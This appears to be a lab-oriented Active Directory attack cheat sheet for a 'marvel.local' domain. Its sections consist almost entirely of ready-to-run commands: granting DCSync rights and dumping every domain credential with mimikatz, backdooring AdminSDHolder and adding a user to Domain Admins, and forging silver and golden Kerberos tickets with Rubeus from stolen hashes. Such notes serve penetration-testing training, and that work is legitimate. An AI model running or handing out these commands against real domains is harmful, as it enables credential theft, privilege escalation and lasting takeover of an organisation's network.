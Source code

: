 ### DCSync Backdoor
```powershell
Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectDN -eq "DC=Marvel,DC=local" -and $_.ObjectAceType -match "DS-Replication" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl

Add-DomainObjectAcl -TargetIdentity "DC=marvel,DC=local" -PrincipalIdentity user4 -Rights DCSync

mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:marvel.local /all /csv" exit
```

### AdminSDHolder
```powershell
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=marvel,DC=local" -PrincipalIdentity user5 -Rights All

Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectDN -match "CN=AdminSDHolder,CN=System,DC=MARVEL,DC=local" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl

net group "Domain Admins" user5 /domain /add
net group "Domain Admins" user5 /domain /delete
```

### Silver Ticket (RC4, AES256)
Machine Account to impersonate any user on any service on that machine
```powershell
Rubeus.exe silver /service:cifs/machine.marvel.local /rc4:b2dfc9634eae3d4772050b979f3f3e2f /user:user3 /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /nowrap /ptt
```

### Golden Ticket (RC4, AES256)
KRBTGT Account to impersonate any user on any service on any machine
```powershell
Rubeus.exe golden /rc4:249030b29d08621192b77cb5c8580fad /user:user3 /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /nowrap /ptt
```
